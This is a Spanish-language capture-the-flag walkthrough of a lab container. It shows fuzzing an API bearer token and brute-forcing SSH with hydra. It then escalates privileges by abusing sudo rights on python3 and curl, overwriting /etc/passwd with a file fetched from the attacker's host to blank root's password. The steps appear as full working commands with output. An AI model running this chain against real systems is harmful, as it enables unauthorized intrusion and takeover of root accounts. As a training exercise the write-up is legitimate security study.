 Desplegamos en contenedor y nos indica que la máquina víctima tiene la IP-->172.17.0.2

Vamos a comprobar trazabilidad:
```bash
ping -c 1 172.17.0.2
```
```
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.085 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.085/0.085/0.085/0.000 ms
```
un paquete transmitido, uno recibido, cero perdidos.

## FASE DE ENUMERACIÓN

Escaneamos puertos abiertos, así como los servicios que corren por ellos y sus versiones por si son vulnerables
```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 19:f1:08:79:13:c4:42:b8:6c:c8:a3:3e:f5:39:a3:59 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLJ6c9b2FZ+2/lQs+7H8j9Vkf83is1rphGqioHJ5Udw/zuClnjeZCCWS3dDNfsWKsmC4bDpP+fbL5p7z3Vpj5z0=
|   256 9b:93:02:4e:d2:08:f7:d7:eb:90:48:e4:48:17:1b:f5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILi2T2o/qZXjV7oo43koui/mZwrmfb2NgDELa++lV/sJ
5000/tcp open  http    syn-ack ttl 64 Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: \xC2\xBFQu\xC3\xA9 es una API?
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
```

-Puerto 22 SSH versión 9.2 no vulnerable, sin credenciales, lo descartamos

-Puerto 5000 http, nos vamos a centrar en él

Lanzamos un whatweb, por si nos reporta algo interesante

```bash
whatweb http://172.17.0.2:5000
```
```
http://172.17.0.2:5000 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.2.2 Python/3.11.2], IP[172.17.0.2], Python[3.11.2], Title[¿Qué es una API?], Werkzeug[2.2.2]
```

entro en la página y miro el código fuente sin ver nada interesante, leyendo la página supongo que hay un directorio "api" y hago fuzzing desde el mismo
```bash
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  "http://172.17.0.2:5000/api/FUZZ"
```
```
000000188:   401        3 L      5 W        31 Ch       "users"   
```

me mueve al mismo, y es como que no estuviera autorizado, en la página principal puedo ller esto:

```
Para obtener la lista de usuarios autenticándote con un token, puedes usar:

curl -H "Authorization: Bearer password_secreta" http://localhost:5000/api/directorio_oculto
```

así pués hago un fuzzing con un diccionario en la cabecera:
```bash
wfuzz -c --hc=404 --hh=31 -w /usr/share/wordlists/rockyou.txt  -H "Authorization: Bearer FUZZ" "http://172.17.0.2:5000/api/users"
```
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000000028:   200        10 L     14 W       89 Ch       "password1"
```

teniendo ya el token lanzo un curl:
```bash
curl -H "Authorization: Bearer password1" "172.17.0.2:5000/api/users"
```
```
[
  {
    "id": 1,
    "nombre": "bob"
  },
  {
    "id": 2,
    "nombre": "dylan"
  }
]

```
tenemos dos user, bob y dylan, nos hacemos un diccionario con ambos y vamos a lanzar un ataque de fuerza bruta al puerto 22 dónde corre SSH

## FASE DE INTRUSIÓN

Lanzamos un ataque de fuerza bruta con hydra al puerto 22 dónde corre SSH:
```bash
hydra -L nombres.txt  -P /usr/share/wordlists/rockyou.txt -t 16 -V -f -I ssh://172.17.0.2
````
```
[ATTEMPT] target 172.17.0.2 - login "bob" - pass "password1" - 28 of 28688799 [child 6] (0/1)
[ATTEMPT] target 172.17.0.2 - login "bob" - pass "soccer" - 29 of 28688799 [child 12] (0/1)
[ATTEMPT] target 172.17.0.2 - login "bob" - pass "anthony" - 30 of 28688799 [child 14] (0/1)
[ATTEMPT] target 172.17.0.2 - login "bob" - pass "friends" - 31 of 28688799 [child 5] (0/1)
[22][ssh] host: 172.17.0.2   login: bob   password: password1
```

ahora nos conectamos por SSH:
```bash
 ssh bob@172.17.0.2
```
cuando nos pide la contraseña introducimos: password1

## ESCALADA DE PRIVILEGIOS

Lanzamos un cat al /etc/passwd para ver los usuarios:
```bash
cat /etc/passwd | grep sh$
```
```
root:x:0:0:root:/root:/bin/bash
balulero:x:1000:1000:balulero,,,:/home/balulero:/bin/bash
bob:x:1001:1001:bob,,,:/home/bob:/bin/bash
```
miramos si estamos en algún grupo privilegiado con id y no, miramos con printenv si hay algo en la variable de entorno y tampoco,
miramos con sudo -l si tenemos algún privilegio
```bash
sudo -l
```
```
Matching Defaults entries for bob on 9ea8319d3a14:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bob may run the following commands on 9ea8319d3a14:
    (balulero) NOPASSWD: /usr/bin/python3
```
y podemos ejecutar como usuario balilero python 3, miramos el binario en 
```
https://gtfobins.github.io/gtfobins/python/
```
y nos dice que con sudo, se puede abusar de esta manera:
````
sudo python -c 'import os; os.system("/bin/sh")'
```
lo ajustamos:
```bash
sudo -u balulero /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

Ya somos el usuario balulero,
miramos con sudo -l:
```bash
sudo -l
```
```
Matching Defaults entries for balulero on 9ea8319d3a14:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User balulero may run the following commands on 9ea8319d3a14:
    (ALL) NOPASSWD: /usr/bin/curl
```
y podemos usar curl con cualquier usuario incluido root, miramos en :
```
https://gtfobins.github.io/gtfobins/curl/#sudo
```
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Fetch a remote file via HTTP GET request.

URL=http://attacker.com/file_to_get
LFILE=file_to_save
sudo curl $URL -o $LFILE
```
podemos subir a la maquina victima un archivo como root, lo más facil es cambiar los privilegios en el /etc/passwd
hacemos un cat del original y nos hacemos uno nuevo quedando así:
```
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
balulero:x:1000:1000:balulero,,,:/home/balulero:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bob:x:1001:1001:bob,,,:/home/bob:/bin/bash
```
montamos un servidor en nuestra máquina atacante dónde tenemos el archivo modificado de passwd:
```bash
sudo python3 -m http.server 80
```
y ahora en la máquina victima introducimos lo siguiente:

```
URL=http://172.17.0.1/passwd #dónde el 172.17.0.1 es nuestra ip atacante con el archivo modificado passwd
LFILE=/etc/passwd # el archivo que vamos a reemplazar, cómo queremos guardar el archivo que bajamos
sudo -u root /usr/bin/curl $URL -o $LFILE # como root bajamos el archivo y lo guardamos
```
```
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1187  100  1187    0     0   243k      0 --:--:-- --:--:-- --:--:--  289k
```
hacemos un cat para ver que ha sido modificado
```bash
cat /etc/passwd
```
```
root::0:0:root:/root:/bin/bash
```
habiendo quitado la "x" ya solo nos queda :
```bash
su root
```
```
root@9ea8319d3a14:/home/bob# is
bash: is: command not found
root@9ea8319d3a14:/home/bob#
```
